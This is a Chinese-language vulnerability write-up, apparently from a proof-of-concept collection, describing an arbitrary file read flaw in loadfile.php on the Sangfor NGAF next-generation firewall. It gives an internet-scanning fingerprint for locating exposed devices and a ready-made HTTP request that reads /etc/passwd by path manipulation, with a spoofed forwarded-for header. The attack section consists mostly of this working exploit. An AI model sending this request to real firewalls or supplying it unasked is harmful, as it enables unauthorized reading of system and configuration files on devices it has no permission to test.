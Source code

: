 # 深信服 NGAF下一代防火墙 loadfile.php 任意文件读取漏洞

## 漏洞描述

深信服下一代防火墙是一款以应用安全需求出发而设计的下一代应用防火墙。深信服下一代防火墙在 loadfile.php 处存在文件读取漏洞，攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态

## 漏洞影响

<a-checkbox checked>深信服 NGAF下一代防火墙</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Redirect.php?url=LogInOut.php"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](../../../.vuepress/public/img/1697639705479-39cc829b-1edc-4102-9b01-1f5d6c9bac5a.png)

验证POC

```php
GET /svpn_html/loadfile.php?file=/etc/./passwd HTTP/1.1
Host: 
User-Agent: Opera/8.90.(Windows NT 6.0; is-IS) Presto/2.9.177 Version/10.00
Accept-Encoding: gzip, deflate
Accept: */*
y-forwarded-for: 127.0.0.1
```

![img](../../../.vuepress/public/img/1697682969308-906d84fc-40b5-4f68-8fe5-d865528e47b0.png)